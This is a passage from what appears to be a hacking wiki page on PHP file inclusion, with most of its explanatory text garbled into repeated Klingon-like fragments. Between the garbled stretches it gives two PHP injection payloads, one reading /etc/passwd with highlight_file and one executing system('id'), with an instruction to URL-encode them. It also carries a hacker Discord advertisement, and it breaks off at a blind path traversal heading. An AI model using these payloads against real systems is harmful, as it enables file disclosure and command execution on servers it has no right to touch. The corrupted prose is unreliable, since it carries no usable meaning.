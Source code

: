 **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'Iv** *'e'* **'ej** **'
```plaintext
' and die(highlight_file('/etc/passwd')) or '
```
DaH jatlh 'ej vItlhutlh. 'ej, 'ej vItlhutlh.
```plaintext
' and die(system("id")) or '
```
**URL-encode these payloads**.

<figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## PHP Blind Path Traversal

{% hint style="warning" %}

